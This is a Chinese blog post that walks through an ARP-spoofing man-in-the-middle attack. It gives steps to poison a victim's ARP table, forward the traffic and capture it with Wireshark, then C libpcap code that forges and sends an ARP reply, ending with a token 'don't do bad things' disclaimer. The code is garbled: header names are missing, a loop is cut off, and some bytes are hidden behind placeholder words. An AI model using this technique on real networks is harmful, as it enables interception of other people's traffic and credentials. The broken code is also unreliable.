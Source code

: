 ```yaml
---
layout: post
title: arp欺骗中间人攻击的实现、arp包解析
categories:
- program
tags: []
published: true
comments: true
---
```

<p>首先先是了解下什么arp欺骗 可以参加这篇文章http://www.ahstu.edu.cn/wlzx/HTML/20090923173022.shtml<br />
看完这篇文章我们就可以实施攻击<br />
1.首先登陆自己的路由器 先对自己准备攻击的机器获得mac地址的信息（在真正攻击时需要用嗅探广发同个子网下的arp广播来获得mac地址）<br />
2.对被攻击的mac地址绑定静态ip（这步在真正攻击时并不需要、我只是为了方便）<br />
3.在路由器中进行绑定把被攻击者的ip的绑定到攻击者的mac地址（在真正攻击时对路由器发送欺骗的ARP欺骗响应在之后会说到）<br />
4.对被攻击者发送arp欺骗应答使之网关的mac地址映射到攻击者的机器上或者简单的 arp -s attack's mac gateway就可以了<br />
------------------ARP表的设置基本完成----------------------------------------------------------------------------<br />
接下去需要打开自己网卡的路由功能（这个可以简单的打开共享网络来做到)<br />
然后开个wireshark什么就安安静静的看着来回所有的数据全给抓到就可以了:P<br />
------------------上面只是理想情况是你知道路由器密码别的情况你该怎么办？被攻击的人能老老实实给你用他电脑么?------------<br />
接下去我们要分析下arp数据包<a href="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg"><img src="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg" alt="" title="54A4717D-5EB0-4B9A-9D84-10A71FC0A72C" width="680" height="232" class="alignnone size-full wp-image-299" /></a>
然后我从真实抓下来的arp进行分析<br />
首先arp广播包是 42个字节<br />
arp响应包是60个字节(后面18个我实在没搞明白是什么……反正我乱填也是成功就是的了<br />
然后我贴代码对这42个字节进行具体分析<br />
因为socket的封装都在ip之上的……unp上查到的sock_packet我在mac上死活也没找到= =<br />
不过我发现给在数据连路层上的更好的一组东西:)<br />
神器不解释啊= =<br />
详见<br />
http://dog.tele.jp/winpcapeng/html/group__wpcap__fn.html</p>

<p>
```

#include
#include

#include

int main(int argc, char **argv) {
    pcap_t *fp;
    char error[PCAP_ERRBUF_SIZE];
    u_char packet[60];
    int i;

    /* Check the validity of the command line */
    if (argc != 2)
    {
        printf("usage: %s inerface", argv[0]);
        return -1;
    }

    /* Open the output adapter */
    if((fp = pcap_open_live("en0", 100, 1, 1000, error) ) == NULL)
    {
        fprintf(stderr,"\nError opening adapter: %s\n", error);
        return -1;
    }

    /* Supposing to be on ethernet, set mac destination to 1:1:1:1:1:1 */
    /*被攻击者的mac*/
    packet[0]=xx;
    packet[1]=32;
    packet[2]=102;
    packet[3]=8;
    packet[4]=jiubu;
    packet[5]=gaosuni;

    /* set mac source to 2:2:2:2:2:2 */
    /*攻击者的mac*/
    packet[6]=jiu;
    packet[7]=bu;
    packet[8]=gaosu;
    packet[9]=234;
    packet[10]=xx;
    packet[11]=100;
    /*arp*/
    packet[12]=8;
    packet[13]=6;
    /*arp首部*/
    packet[14]=0;
    packet[15]=1;

    packet[16]=8;
    packet[17]=0;

    packet[18]=6;
    packet[19]=4;
    packet[20]=0;
    packet[21]=2;
    /*被骗的那个人的arp表上的假mac*/
    packet[22]=jiu;
    packet[23]=154;
    packet[24]=32;
    packet[25]=bu;
    packet[26]=253;
    packet[27]=gao;
    /*被骗者的网关*/
    packet[28]=192;
    packet[29]=168;
    packet[30]=1;
    packet[31]=1;
    /*被攻击者的mac*/
    packet[32]=xx;
    packet[33]=32;
    packet[34]=102;
    packet[35]=xx;
    packet[36]=xx;
    packet[37]=184;
    /*被攻击者的ip*/
    packet[38]=192;
    packet[39]=168;
    packet[40]=1;
    packet[41]=114;

    /* Fill the rest of the packet */
    /*乱填就好了*/
    for(i=42;i
        packet[i]=i%256;
    }

    /* Send down the packet */
    pcap_sendpacket(fp,
                    packet,
                    60);

    return 0;
}


以上arp欺骗的完整实现、不要用来干坏事= =
>

```

